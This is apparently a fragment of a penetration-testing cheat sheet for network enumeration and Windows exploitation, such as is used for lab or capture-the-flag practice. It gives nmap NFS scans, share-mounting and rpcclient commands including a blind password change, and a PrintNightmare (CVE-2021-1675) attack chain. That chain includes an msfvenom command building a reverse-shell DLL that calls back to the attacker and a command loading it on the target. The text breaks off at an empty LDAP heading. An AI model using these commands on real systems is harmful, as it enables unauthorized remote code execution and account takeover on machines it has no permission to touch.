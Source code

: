 #### Showmount

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 127.0.0.1
```

Can you mount the Network file share?

```
mount -t cifs //<IP>/Backups /mnt/remote -o rw
```

```
rpcclient -U username/IP -- to log in
```

Retrive current logged in user privileges

```
enumprivs
 -- to retrive current logged in user privileges
```

Blindy check if you can change password

```
setuserinfo username 23 Password!
```

### RPC

rpcdump.py 127.0.0.1 -p 135

_Print Nightmare_

https://github.com/calebstewart/CVE-2021-1675

https://github.com/cube0x0/CVE-2021-1675

Check For PrintNightmare

```
rpcdump.py @$ip | egrep 'MS-RPRN|MS-PAR'
```

If the output is the following contains the following, it is vulnerable.

```
Print System Aschronous Remote Protocol
Print System Remote Protocol
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=$tun0 lport=53 -f dll -o /opt/winreconpack/thescriptkid.dll
```

```bash
python3 printnightmare.py domain.local/user:password@$ip '\\$tun0\winreconpack\thescriptkid.dll'
```

### LDAP
